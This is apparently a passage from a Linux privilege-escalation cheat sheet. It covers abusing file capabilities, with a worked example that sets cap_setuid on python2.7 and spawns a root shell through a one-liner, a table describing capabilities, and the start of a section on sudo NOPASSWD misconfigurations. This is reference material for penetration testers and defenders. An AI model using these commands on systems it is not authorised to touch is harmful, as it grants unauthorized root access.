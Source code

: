 Alternatively the following capabilities can be used in order to upgrade your current privileges.

```powershell
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Example of privilege escalation with `cap_setuid+ep`

```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

| Capabilities name  | Description |
|---|---|
| CAP_AUDIT_CONTROL  | Allow to enable/disable kernel auditing |
| CAP_AUDIT_WRITE  | Helps to write records to kernel auditing log |
| CAP_BLOCK_SUSPEND  | This feature can block system suspends   |
| CAP_CHOWN  | Allow user to make arbitrary change to files UIDs and GIDs |
| CAP_DAC_OVERRIDE  | This helps to bypass file read, write and execute permission checks |
| CAP_DAC_READ_SEARCH  | This only bypasses file and directory read/execute permission checks  |
| CAP_FOWNER  | This enables bypass of permission checks on operations that normally require the filesystem UID of the process to match the UID of the file  |
| CAP_KILL  | Allow the sending of signals to processes belonging to others  |
| CAP_SETGID  | Allow changing of the GID  |
| CAP_SETUID  | Allow changing of the UID  |
| CAP_SETPCAP  | Helps to transferring and removal of current set to any PID |
| CAP_IPC_LOCK  | This helps to lock memory  |
| CAP_MAC_ADMIN  | Allow MAC configuration or state changes  |
| CAP_NET_RAW  | Use RAW and PACKET sockets |
| CAP_NET_BIND_SERVICE  | SERVICE Bind a socket to internet domain privileged ports  |

## SUDO

Tool: [Sudo Exploitation](https://github.com/TH3xACE/SUDO_KILLER)

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.

